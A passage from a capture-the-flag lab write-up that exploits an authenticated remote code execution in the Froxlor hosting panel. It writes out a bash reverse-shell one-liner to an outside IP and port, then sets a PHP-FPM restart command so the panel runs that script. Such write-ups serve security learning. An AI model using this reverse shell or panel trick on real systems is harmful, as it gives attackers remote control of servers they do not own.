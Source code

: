 ![img](/assets/img/Sightless/9.webp)

I poked around the dashboard but didn't see anything right away. So, I did some more Googling and found a blog post about [Froxlor Authenticated RCE](https://sarperavci.com/Froxlor-Authenticated-RCE/) and I followed the steps in the blog post

First, I created a bash script to get a reverse shell:

```bash
echo "bash -i >& /dev/tcp/10.10.14.54/1337 0>&1" > rce.sh
chmod +x rce.sh
```

Then, I navigated to `PHP` -> `PHP-FPM versions` and clicked on "Create new PHP version". (rather then modifying the existing one)

![img](/assets/img/Sightless/10.webp)

I added the following

- Short description: `RCE`
- php-fpm restart command: `/bin/bash /dev/shm/rce.sh`
- Clicked `Save`
